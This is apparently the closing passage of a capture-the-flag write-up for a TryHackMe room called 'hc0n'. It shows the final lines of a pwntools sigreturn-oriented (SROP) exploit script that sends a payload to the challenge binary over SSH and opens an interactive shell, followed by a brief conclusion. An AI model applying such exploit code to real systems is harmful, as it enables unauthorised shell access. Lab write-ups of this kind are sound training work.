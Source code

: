 ```python
	payload += p64(0x0)
	payload += p64(syscall)

	print(r.recvline())
	r.sendline(payload)
	r.interactive()

if __name__== "__main__":
	r = ssh(host=HOST, port=PORT, user="<username>", password="<password>")
	s = r.run('./hc0n')
	SROP_exploit(s)
```

You need the Pwntools library to run the script (pip install pwntools).

![root](/assets/images/THM/2020-08-15-hc0n-christmas-ctf/42.png)

Phew, what a challenge.

## Conclusion

That's all for the hc0n write-up. Not an easy challenge for me but really appreciate the room. Good job stuxnet and Robin. Until next time :)
